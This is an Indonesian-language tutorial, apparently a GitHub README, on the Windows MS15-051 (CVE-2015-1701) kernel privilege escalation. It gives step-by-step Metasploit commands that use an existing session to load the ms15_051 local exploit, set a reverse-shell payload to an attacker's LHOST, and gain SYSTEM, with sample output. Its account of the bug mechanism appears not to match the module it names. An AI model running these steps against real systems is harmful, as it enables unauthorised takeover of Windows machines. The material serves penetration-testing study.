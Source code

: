 # MS15-051

## A. Apa itu MS15-051?

[MS15-051]() adalah kerentanan local privilege escalation (LPE) pada driver kernel Windows `win32k.sys`. Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk meningkatkan hak akses menjadi `NT AUTHORITY\SYSTEM`, level tertinggi dalam sistem Windows.

Eksploitasi ini memanfaatkan race condition dalam fungsi `NtSetWindowLongPtr()` yang memungkinkan manipulasi objek window di kernel secara tidak aman, sehingga memungkinkan overwrite pointer dan eksekusi kode sewenang-wenang dengan hak `SYSTEM`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2015-1701`
- **Buletin Microsoft**: `MS15-051`
- **Tanggal Rilis**: `12 Mei 2015`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan:
- Windows 7
- Windows Server 2008 R2
- Windows 8
- Windows 8.1
- Windows Server 2012
- Windows Server 2012 R2

Lihat detail lengkapnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software](https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS15-051:

   ```
   msf6 > use exploit/windows/local/ms15_051_client_copy_image
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and executing it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1992 launched.
   [*] Reflectively injecting the DLL into 1992...
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Meterpreter session 15 opened (192.168.1.42:4444 -> 192.168.1.50:49174) at 2025-05-14 16:19:31 +0700

   meterpreter > 
   ```


   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
